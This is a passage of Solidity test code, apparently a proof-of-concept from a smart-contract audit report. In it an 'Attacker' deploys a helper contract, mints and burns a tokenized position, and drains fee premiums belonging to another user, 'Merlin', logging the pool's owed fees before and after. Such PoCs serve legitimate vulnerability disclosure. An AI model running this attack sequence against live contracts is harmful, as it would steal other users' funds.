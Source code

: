 >        console2.log("Premium in token0 belonging to Merlin after swaps:    ", Math.mulDiv64(premAfterSwap0, accountLiqM.rightSlot()));
>        console2.log("Premium in token1 belonging to Merling after swaps:   ", Math.mulDiv64(premAfterSwap1, accountLiqM.rightSlot()));
>
>
>        // -------------- Attack is performed  -------------------------------
>        
>        
>        changePrank(Attacker); 
>
>        Implementer = new AttackImp(token0, token1, address(sfpm)); 
>
>        deal(token0, address(Implementer), type(uint128).max);
>        deal(token1, address(Implementer), type(uint128).max);
>
>        Implementer.mintAndTransfer(
>            tokenId,
>            uint128(positionSize),
>            TickMath.MIN_TICK,
>            TickMath.MAX_TICK
>        );
>
>        
>        uint256 balance = sfpm.balanceOf(Attacker, tokenId);
>        uint256 balance2 = sfpm.balanceOf(Merlin, tokenId);
>
>        
>        (uint128 premTokenAttacker0, uint128 premTokenAttacker1) = sfpm.getAccountPremium(
>                address(pool),
>                Merlin,
>                0,
>                tickLower,
>                tickUpper,
>                currentTick,
>                0
>        );
>
>        (, , , uint256 tokensowed0, uint256 tokensowed1) = pool.positions(
>            PositionKey.compute(address(sfpm), tickLower, tickUpper)
>        );
>         
>        console2.log("Fees in token0 available to SFPM before attack:       ", tokensowed0);
>        console2.log("Fees in token1 available to SFPM before attack:       ", tokensowed1);
>        
>        
>        sfpm.burnTokenizedPosition(
>            tokenId,
>            uint128(positionSize),
>            TickMath.MIN_TICK,
>            TickMath.MAX_TICK
>        );
>                
>        (, , , tokensowed0, tokensowed1) = pool.positions(
>            PositionKey.compute(address(sfpm), tickLower, tickUpper)
>        );
>         
>        console2.log("Fees in token0 available to SFPM after attack:        ", tokensowed0);
>        console2.log("Fees in token1 available to SFPM after attack:        ", tokensowed1);
>
>        {
>            // Tokens used for attack, deposited through implementer
>            uint256 attackerDeposit0 = type(uint128).max - IERC20(token0).balanceOf(address(Implementer)); 
